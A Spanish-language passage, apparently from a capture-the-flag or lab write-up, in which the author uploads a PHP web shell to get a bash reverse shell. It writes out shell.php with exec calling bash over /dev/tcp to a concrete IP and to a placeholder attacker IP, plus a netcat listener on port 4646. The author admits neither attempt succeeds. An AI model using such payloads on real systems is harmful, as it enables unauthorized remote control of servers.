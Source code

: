 Pero ¿y si en vez de hacer que escriba un texto en la página, le enchufamos un comando que se conecte a nuestra máquina? *(Reverse Shell)*

Para generar el pedido, haré uso de la página [revshells.com](https://www.revshells.com/). No olvidemos seleccionar el tema "Meme".

![revshells.com](./img/revshells.png)

Una vez tenemos el pedido para la víctima y el atacante, creamos el archivo PHP.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/212.227.146.196/4646 0>&1") ?>
```

Previamente a colgar el archivo, nos ponemos en escucha en el puerto `4646` con **Netcat**.

```
$ nc -lvnp 4646
```

Una vez colgamos el archivo y lo abrimos, no pasa absolutamente nada porque no he especificado la IP del atacante (la mía), sino la de la víctima, por tanto se está intentando conectar a sí mismo (soy burro) .

Ahora sí, lo jodaremos bien.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/IP_DEL_FONTA/4646 0>&1") ?>
```

Pues mecagum diez no va. *xd*.
